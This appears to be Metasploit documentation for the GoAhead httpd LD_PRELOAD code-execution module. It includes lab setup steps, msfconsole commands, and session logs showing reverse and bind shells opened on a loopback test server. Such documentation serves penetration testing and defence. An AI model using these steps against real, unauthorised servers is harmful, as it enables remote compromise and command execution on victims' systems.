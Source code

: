 ## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
../build/linux-x64-default/bin/goahead . 127.1.1.1:8080
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_ldpreload```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **TARGET_URI**

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```

msf> use exploit/linux/http/goahead_preload
msf exploit(goahead_ldpreload) > set RHOST 127.1.1.1
msf exploit(goahead_ldpreload) > set RPORT 8080
msf exploit(goahead_ldpreload) > check

[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[+] 127.1.1.1:8080 The target is vulnerable.

msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 4 opened (127.0.0.1:4444 -> 127.0.0.1:32988) at 2017-12-28 16:26:50 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 1
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[*] Started bind handler
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 5 opened (127.0.0.1:30836 -> 127.1.1.1:4444) at 2017-12-28 16:28:04 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 2
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP double handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sNRXNjxWl7ic0uWw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sNRXNjxWl7ic0uWw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 6 opened (127.0.0.1:4444 -> 127.0.0.1:32995) at 2017-12-28 16:28:56 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


msf exploit(goahead_ldpreload) > set TARGET 4
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 7 opened (127.0.0.1:4444 -> 127.0.0.1:33000) at 2017-12-28 16:29:34 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```


## Logging

Each 404 error will generate a console or log entry similar to `goahead: 0: Cannot find CGI program:`.
